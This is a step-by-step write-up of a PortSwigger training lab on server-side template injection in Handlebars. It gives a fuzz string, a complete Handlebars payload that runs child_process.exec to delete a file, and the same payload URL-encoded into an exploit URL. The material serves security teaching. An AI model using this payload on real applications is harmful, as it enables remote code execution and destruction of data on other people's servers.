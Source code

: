 # Server-side template injection in an unknown language with a documented exploit

## Description

[This lab](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-in-an-unknown-language-with-a-documented-exploit) is vulnerable to server-side template injection.

## Reproduction and proof of concept

1. Notice that when you try to view more details about the first product, a ``GET`` request uses the ``message`` parameter to render "``Unfortunately this product is out of stock``" on the home page.
2. Experiment by injecting a fuzz string containing template syntax from various different template languages, such as ``${{<%[%'"}}%\``, into the ``message`` parameter. Notice that when you submit invalid syntax, an error message is shown in the output. This identifies that the website is using Handlebars.
3. Search the web for "Handlebars server-side template injection". You should find a well-known exploit posted by ``@Zombiehelp54``.
4. Modify this exploit so that it calls ``require("child_process").exec("rm /home/carlos/morale.txt")`` as follows:

```text
wrtz{{#with "s" as |string|}}
    {{#with "e"}}
        {{#with split as |conslist|}}
            {{this.pop}}
            {{this.push (lookup string.sub "constructor")}}
            {{this.pop}}
            {{#with string.split as |codelist|}}
                {{this.pop}}
                {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
                {{this.pop}}
                {{#each conslist}}
                    {{#with (string.sub.apply 0 codelist)}}
                        {{this}}
                    {{/with}}
                {{/each}}
            {{/with}}
        {{/with}}
    {{/with}}
{{/with}}
```

5. URL encode your exploit and add it as the value of the message parameter in the URL. The final exploit should look like this, but remember to replace ``your-lab-id`` with your own lab ID:

```text
https://your-lab-id.web-security-academy.net/?message=wrtz%7b%7b%23%77%69%74%68%20%22%73%22%20%61%73%20%7c%73%74%72%69%6e%67%7c%7d%7d%0d%0a%20%20%7b%7b%23%77%69%74%68%20%22%65%22%7d%7d%0d%0a%20%20%20%20%7b%7b%23%77%69%74%68%20%73%70%6c%69%74%20%61%73%20%7c%63%6f%6e%73%6c%69%73%74%7c%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%28%6c%6f%6f%6b%75%70%20%73%74%72%69%6e%67%2e%73%75%62%20%22%63%6f%6e%73%74%72%75%63%74%6f%72%22%29%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%73%74%72%69%6e%67%2e%73%70%6c%69%74%20%61%73%20%7c%63%6f%64%65%6c%69%73%74%7c%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%22%72%65%74%75%72%6e%20%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%72%6d%20%2f%68%6f%6d%65%2f%63%61%72%6c%6f%73%2f%6d%6f%72%61%6c%65%2e%74%78%74%27%29%3b%22%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%23%65%61%63%68%20%63%6f%6e%73%6c%69%73%74%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%28%73%74%72%69%6e%67%2e%73%75%62%2e%61%70%70%6c%79%20%30%20%63%6f%64%65%6c%69%73%74%29%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%2f%65%61%63%68%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%7b%7b%2f%77%69%74%68%7d%7d
```

6. The lab should be solved when you load the URL.

## Exploitability

An attacker will need to identify the template engine and find a documented exploit online that can be used to execute arbitrary code, and to delete the `morale.txt` file from Carlos's home directory.
